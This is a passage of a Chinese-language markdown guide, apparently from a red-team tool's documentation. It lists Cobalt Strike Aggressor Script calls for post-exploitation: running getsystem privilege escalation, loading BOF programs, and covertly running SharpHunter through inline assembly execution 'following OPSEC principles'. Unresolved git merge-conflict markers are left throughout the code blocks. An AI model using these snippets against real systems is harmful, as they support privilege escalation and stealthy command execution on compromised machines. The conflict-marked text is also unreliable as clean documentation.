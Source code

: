 6.  直接运行 CS 自带 getsystem 功能
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    item "Get-System" {
             binput($1,"getsystem");
             bgetsystem($1);
     }
    ```
    
<<<<<<< HEAD
7.  直接运行注册好的 BOF 命令（ 条件：需要用户侧加载脚本注册对应命令 ）
    
    ```plain
=======
7.  直接运行注册好的 BOF 命令（条件：需要用户侧加载脚本注册对应命令）
    
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    fireAlias($1, "inlineExecute-Assembly", "--dotnetassembly /Users/Tools/Develop/SharpHunter.exe --assemblyargs sys");
    ```
    

#### 推荐执行函数

从 OPSEC 的原则来看推荐用以下几种方式执行：

1.  **加载并执行 BOF 程序**
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    beacon_inline_execute($1, readbof($1, "whoami"), "go", $null);
    ```
    
2.  **AutoPostChain 封装好的 InlineExecute-Assembly 函数**
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    inlineExecute-Assembly($1,script_resource("/scripts/SharpHunter.exe"), "sys");
    ```
    
3.  **使用 InlineExecute-Assembly + SharpHunter 隐蔽执行命令**
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    inlineExecute-Assembly($1,script_resource("/scripts/SharpHunter.exe"), "run \"whoami /all\"");
    ```
    